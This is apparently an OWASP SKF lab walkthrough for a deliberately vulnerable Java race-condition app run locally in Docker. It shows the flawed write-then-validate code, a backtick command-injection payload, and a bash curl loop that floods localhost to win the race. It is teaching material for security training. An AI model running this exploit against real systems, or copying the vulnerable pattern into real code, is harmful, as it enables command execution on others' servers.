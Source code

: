 # Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1. `bootValidate(person)`

   the function receives the username in input and executes the following:

   - deletes `"` and `\` from the username
   - opens `hello.sh` file
   - writes a command in it
   - closes the file
   - logs some useful info
   - checks if the username is in the format `[A-Za-z0-9 ]*`
   - returns the username if the regex succedes

2. `bootClean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `bootRun()` executes the `hello.sh` file

4. `bootReset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `bootValidate(person)`

```text
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `bootRun()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `bootRun()` executing the `hello.sh` file.

We also notice that the function `bootValidate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```java
public String bootValidate(String person) {
    try (FileWriter writer = new FileWriter("hello.sh", false)) {
      writer.write("echo \"" + person + "\" > hello.txt");
      writer.close();
      java.util.Date date = new java.util.Date();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh updated -- " + date + "' > log.txt").start();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh cleaned -- " + date + "' >> log.txt").start();
      Process p3 = new ProcessBuilder("/bin/bash", "-c", "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh")
          .start();
      BufferedReader reader = new BufferedReader(new java.io.InputStreamReader(p3.getInputStream()));
      String valid = reader.readLine();
      System.out.println(valid);
      return valid == null ? "" : valid;
    } catch (Exception e) {
      e.printStackTrace();
    }
    return "";
  }
```

Everything works fine, so where is the problem?

The problem is that in this case, we have a very small window to execute the `bootRun()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `bootValidate`
2. write the malicious payload in `hello.sh`
3. call `bootRun()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```bash
#!/bin/bash
while true; do

    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition/4.png)

{% hint style="success" %}
Congratulations, you won the race for real now!!!!!!!!
{% endhint %}

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
